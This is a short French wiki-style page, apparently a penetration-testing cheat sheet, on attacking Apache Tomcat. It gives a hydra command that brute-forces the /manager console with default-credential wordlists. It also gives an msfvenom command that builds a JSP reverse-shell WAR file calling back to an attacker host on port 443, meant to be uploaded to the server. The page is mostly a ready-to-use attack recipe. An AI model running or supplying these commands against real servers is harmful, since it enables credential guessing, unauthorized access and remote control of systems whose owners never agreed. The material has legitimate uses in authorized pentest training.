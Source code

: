 ```yaml
---
title: Apache Tomcat
permalink: /Apache_Tomcat/
---
```


# Apache Tomcat

Apache Tomcat est un serveur web permettant de déployer des applications Java.

Exploitation
------------

La première chose à faire est d'essayer d'obtenir un accès à la console /manager. Pour cela il est possible d'utiliser [hydra](/hydra "wikilink") avec des listes prédéfinies dans Kali:

``` bash
hydra -L /usr/share/wordlists/metasploit/tomcat_mgr_default_users.txt -P /usr/share/wordlists/metasploit/tomcat_mgr_default_pass.txt http://192.168.31.209:8080/manager/html
```

On peut ensuite uploader un reverse shell sous forme de .war:

``` bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.30.229 LPORT=443 -f war > shell.war
```
